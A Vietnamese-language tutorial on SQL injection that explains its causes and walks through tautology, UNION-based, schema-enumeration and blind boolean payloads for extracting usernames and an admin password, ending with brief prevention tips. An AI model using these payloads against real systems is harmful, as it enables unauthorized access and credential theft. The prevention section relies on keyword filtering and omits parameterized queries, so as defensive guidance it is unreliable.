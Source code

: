 # SQL INJECTION
### 1.SQL Injection là gì?
+ SQL Injection là một kỹ thuật tấn công cho phép kẻ tấn công chèn mã SQL vào dữ liệu gửi đến máy chủ.
+ Cuối cùng được thực thi mã trên máy chủ cơ sở dữ liệu
### 2.Nguyên nhân chính của lỗ hổng SQL Injection là gì?
+ Do dữ liệu đầu vào từ người dùng không được kiểm tra kỹ lưỡng
+ Sử dụng các câu lệnh SQL động,thao tác nối dữ liệu người dùng với mã lệnh SQL gốc
### 3.Các dạng tấn công SQL Injection:
#### 1.Retrieving hidden data: 
##### Có thể sửa câu truy vấn để trả về kết quả bổ sung
Ví dụ : input đầu vào là @query = 'john'
Ở đây câu truy vấn sẽ SELECT đến bảng users để lấy dữ liệu có username = 'john'
```Mysql
SELECT * FROM users WHERE username = @query;
```
Nhưng ở đây chúng ta không biết trong bảng users có những username nào.Vì thế chúng ta cần sửa lại input đầu vào để câu truy vấn luôn đúng.@query = 'john' or 1 = 1 --  
```MySQL
SELECT * FROM users WHERE username = 'john' or 1 = 1 -- ;
```
Kết quả trả về sẽ là tất cả dữ liệu của bảng users
#### 2.Retrieving data from other database tables: 
##### Kiểu tấn công này liên quan đến sử dụng UNION để kết hợp 2 hay nhiều câu lệnh SELECT.
Để câu truy vấn UNION hoạt động thì phải đáp ứng được 2 yêu cầu:

+ Các câu truy vấn riêng phải cùng có số cột.
+ Các kiểu dữ liệu trong mỗi cột phải tương thích với nhau.

Ví dụ : input đầu vào là @query = '123'
```MySQL
SELECT name,type FROM category WHERE id = @query;
```
Ở đây mình muốn lấy username,password từ bảng `users`,mình cần check trước là số lượng cột ở câu truy vấn trước.@query có thể:
```MySQL
'123' UNION SELECT NULL,NULL--
'123' UNION SELECT NULL,NULL,NULL--
'123' UNION SELECT NULL,NULL,NULL,NULL--
etc.
```
Ở đây mình dùng `NULL` vì nó có thể chuyển đổi thành mọi kiểu dữ liệu.Mình sẽ thử lần lượt các câu query cho đến khi server không báo lỗi.
```MySQL
SELECT name,type FROM category WHERE id = '123' UNION SELECT NULL,NULL--;
```
Bây giờ mình cần kiểm tra dữ liệu của từng cột.@query có thể:
```MySQL
'123' UNION SELECT 'x',NULL--
'123' UNION SELECT NULL,'x'--
'123' UNION SELECT 'x','y'--
etc.
```
Sau khi xác định được kiểu dữ liệu thì bây giờ mình cần truy vấn lấy dữ liệu ở bảng `users`
```MySQL
SELECT name,type FROM category WHERE id = '123' UNION SELECT username,password FROM users--;
```
#### 3.Examining the database:
##### Kiểu tấn công này sẽ lấy được phiên bản và cấu trúc cơ sở dữ liệu
Truy vấn đến `information_schema.tables` để liệt kê các bảng trong cơ sở dữ liệu
```MySQL
SELECT * FROM information_schema.tables
```
Sau đó chúng ta có thể truy vấn `information_schema.columns`để xem các cột dữ liệu của chúng
```MySQL
SELECT * FROM information_schema.columns WHERE table_name='users'
```
Cuối cùng ta có thể truy vẫn đến từng giá trị của bảng
```MySQL
SELECT user_abcd,pasword_efgh FROM users
```
Mình thấy hay kết hợp với câu truy vấn `UNION`
#### 4.Blind SQL Injection:
##### Kiểu tấn công này sẽ không trả về kết quả của câu truy vấn đưa vào
Ví dụ:
```MySQL
SELECT * FROM users WHERE username=@query;
-- Nếu câu truy vấn đúng sẽ in ra giao diện "successfully"
-- Ngược lại sẽ không in gì
```
Bây giờ mình thử xâm nhập:
```MySQL
SELECT * FROM users WHERE username='admin';
-- hiện thị "successfully"
SELECT * FROM users WHERE username='admin' AND 1 = 2;
-- không hiện thị
SELECT * FROM users WHERE username='admin' AND 1=1;
-- hiện thị "successfully"
```
Gỉa sử mình biết trong cơ sở dữ liệu có bảng `users` và có username = 'admin',mình cần tìm ra password.
Ban đầu mình cần tìm ra độ dài của password @length = 1:
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select 'pwd' from users where username = 'admin' AND LENGTH(password)>@length)='pwd';
-- hiện thị "successfully"
```
Mình cần tăng @length đến khi nào không hiện thị `successfully`,giả sử length =10 bây giờ mình cần tìm password bằng cách cắt và so sánh từng kí tự 1.
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select SUBSTRING(password,1,1) from users where username = 'admin')='a';
-- không hiện thị
-- Chỗ này mình cần thay đổi giá trị 'a' đến khi hiện thị
```
Mình dùng `Bruteforce` để gửi các payload.Ở đây có 2 payload là vị trí của từng ký tự và payload để so sánh (a,b) 
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select SUBSTRING(password,$a$,1) from users where username = 'admin')='$b$';
```
Chạy xong sẽ tìm được password!
### 4.Cách phòng chống SQL Injection:
+ **Lọc dữ liệu từ người dùng:** Ta sử dụng filter để lọc các ký tự đặc biệt(;') hoặc các từ khóa(UNION,SELECT)
+ **Không hiện thị exception,message lỗi:** Hacker có thể dự vào message lỗi để tìm ra cấu trúc dữ liệu
+ **Mã hóa dữ liệu trong database   :** Điều này làm cho hacker tìm được,những khó để sử dụng

